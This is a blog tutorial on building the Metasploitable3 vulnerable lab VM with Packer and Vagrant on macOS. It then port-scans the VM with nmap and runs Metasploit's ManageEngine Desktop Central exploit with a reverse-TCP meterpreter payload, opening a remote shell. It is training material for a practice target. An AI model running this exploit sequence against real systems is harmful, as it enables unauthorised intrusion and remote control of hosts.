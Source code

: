 ```yaml
---
title: "Build a Metasploit Test Bench with Metasploitable3 & Vagrant"
excerpt: "How to install Metasploitable3 with Vagrant on macOS"
tags:
  - metasploit
  - metasploitable
  - exploit
  - vagrant
---
```


---
Metasploitable3 is a virtual machine that is built from the ground up with a large amount of security vulnerabilities. It is intended to be used as a target for testing exploits with metasploit.

It succeed to [Metasploitable2](https://community.rapid7.com/docs/DOC-1875), a pre-built ISO image also containing security vulnerabilities. The new version is fully built on Packer and Vagrant allowing you to customize it, especially by introducing different difficulty levels. Since the system is built on-demand, it allow someone to set a variable before the build and the resulting VM will have different services more open or locked down depending on what is selected.

## Install the Build Environment

To prepare the environment you need to install the following dependencies:

* [Homebrew](http://brew.sh)
* [Packer](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
* [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
* Internet connection

**Note:** At the time of writing, the last release of VirtualBox (5.1.8) is breaking the provisioning process. You should use VirtualBox 5.1.6 or the last testing version. For more information, check this issue on GitHub: [https://github.com/rapid7/metasploitable3/issues/41](https://github.com/rapid7/metasploitable3/issues/41).
{: .notice--warning}

**Update:** It seems that the previous issues was fixed in VirtualBox (5.1.12).
{: .notice--info}

As I am running a macOS system, I used Brew to install the dependencies.

```bash
# Install Packer
$ brew install packer

# Install Vagrant
$ brew install vagrant

# Install Vagrant Reload Plugin
$ vagrant plugin install vagrant-reload
```


Then clone the [Metasploitable3](https://github.com/rapid7/metasploitable3) repository from GitHub.

```bash
$ git clone https://github.com/rapid7/metasploitable3.git
$ cd metasploitable3
```

## Build the Base VM Image

Once your environment is setup, build the base VM image by running Packer. This will take a while the first time you run it since it has to download the OS installation ISO.

```bash
$ packer build windows_2008_r2.json

virtualbox-iso output will be in this color.

==> virtualbox-iso: Downloading or copying Guest additions
    virtualbox-iso: Downloading or copying: file:///Applications/VirtualBox.app/Contents/MacOS/VBoxGuestAdditions.iso
==> virtualbox-iso: Downloading or copying ISO
    virtualbox-iso: Downloading or copying: http://download.microsoft.com/download/7/5/E/75EC4E54-5B02-42D6-8879-D8D3A25FBEF7/7601.17514.101119-1850_x64fre_server_eval_en-us-GRMSXEVAL_EN_DVD.iso
    virtualbox-iso: Download progress: 1%
    virtualbox-iso: Download progress: 3%
    virtualbox-iso: Download progress: 5%

[...]

==> virtualbox-iso: Unregistering and deleting virtual machine...
==> virtualbox-iso: Running post-processor: vagrant
==> virtualbox-iso (vagrant): Creating Vagrant box for 'virtualbox' provider
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854-disk1.vmdk
    virtualbox-iso (vagrant): Copying from artifact: output-virtualbox-iso/packer-virtualbox-iso-1478461854.ovf
    virtualbox-iso (vagrant): Renaming the OVF to box.ovf...
    virtualbox-iso (vagrant): Using custom Vagrantfile: vagrantfile-windows_2008_r2.template
    virtualbox-iso (vagrant): Compressing: Vagrantfile
    virtualbox-iso (vagrant): Compressing: box.ovf
    virtualbox-iso (vagrant): Compressing: metadata.json
    virtualbox-iso (vagrant): Compressing: packer-virtualbox-iso-1478461854-disk1.vmdk
Build 'virtualbox-iso' finished.
```

## Provisioning with Vagrant

After the base Vagrant box is created you need to add it to your Vagrant environment.

```bash
$ vagrant box add windows_2008_r2_virtualbox.box --name=metasploitable3
==> box: Box file was not detected as metadata. Adding it directly...
==> box: Adding box 'metasploitable3' (v0) for provider: 
    box: Unpacking necessary files from: file:///Users/ax/Downloads/metasploitable3/windows_2008_r2_virtualbox.box
==> box: Successfully added box 'metasploitable3' (v0) for 'virtualbox'!
```

Then, to start the provisioning process, run the command `vagrant up`. This will start up the VM and run all of the installation and configuration scripts necessary to set everything up. This takes about 20 minutes.

```bash
$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Importing base box 'metasploitable3'...
==> default: Matching MAC address for NAT networking...
==> default: Setting the name of the VM: metasploitable3_default_1478815443621_32649
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...
    default: Adapter 1: nat
    default: Adapter 2: hostonly
==> default: Forwarding ports...
    default: 3389 (guest) => 3389 (host) (adapter 1)
    default: 22 (guest) => 2222 (host) (adapter 1)
    default: 5985 (guest) => 55985 (host) (adapter 1)
    default: 5986 (guest) => 55986 (host) (adapter 1)

[...]

```

If the provisioning went well, the Metasploitable3 is ready to be used.

## Check the Virtual Machine

To start exploiting the various services, I suggest you to check the open port on the virtual machine by using **Nmap**.

```bash
$ nmap -sV -p- 172.28.128.3

Starting Nmap 7.30 ( https://nmap.org )
Nmap scan report for 172.28.128.3
Host is up (0.0030s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
22/tcp    open  ssh           OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http          Microsoft IIS httpd 7.5
1617/tcp  open  nimrod-agent?
4848/tcp  open  ssl/http      Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8020/tcp  open  http          Apache httpd
8022/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8027/tcp  open  unknown
8080/tcp  open  http          Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
8282/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
8383/tcp  open  ssl/http      Apache httpd
8484/tcp  open  http          Jetty winstone-2.8
8585/tcp  open  http          Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
9200/tcp  open  http          Elasticsearch REST API 1.1.1 (name: Inertia; Lucene 4.7)
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49263/tcp open  unknown
49264/tcp open  tcpwrapped
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 257.28 seconds
```

As you can see, there are many services running on the VM. Let's try to get a root shell by exploiting one of them.

## Quick Exploit with Metasploit

I choose to exploit the ManageEngine server of the virtual machine by using the **exploit/windows/http/manageengine_connectionid_write** exploit module from Metasploit.

```bash
msf > use exploit/windows/http/manageengine_connectionid_write
msf exploit(manageengine_connectionid_write) > show options 

Module options (exploit/windows/http/manageengine_connectionid_write):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      8020             yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path for ManageEngine Desktop Central
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ManageEngine Desktop Central 9 on Windows


msf exploit(manageengine_connectionid_write) > set RHOST 172.28.128.3
RHOST => 172.28.128.3
msf exploit(manageengine_connectionid_write) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(manageengine_connectionid_write) > set LHOST 172.28.128.4
LHOST => 172.28.128.4

msf exploit(manageengine_connectionid_write) > exploit 

[*] Started reverse TCP handler on 172.28.128.4:4444 
[*] Creating JSP stager
[*] Uploading JSP stager WJsoA.jsp...
[*] Executing stager...
[*] Sending stage (957999 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.4:4444 -> 172.28.128.3:49522)
[+] Deleted ../webapps/DesktopCentral/jspf/WJsoA.jsp

meterpreter > getuid 
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > 
```

Yay ! We got a remote Meterpreter shell. Now it's your turn, have fun !


## Resources

* [Official Metasploitable3 Repository](https://github.com/rapid7/metasploitable3)
* [Metasploitable3 Wiki](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities)
* [VirtualBox (Old Builds)](https://www.virtualbox.org/wiki/Download_Old_Builds_5_1)
* [Packer.io](https://www.packer.io)
* [Vagrant](https://www.vagrantup.com)
* [Vagrant Reload Plugin](https://github.com/aidanns/vagrant-reload)
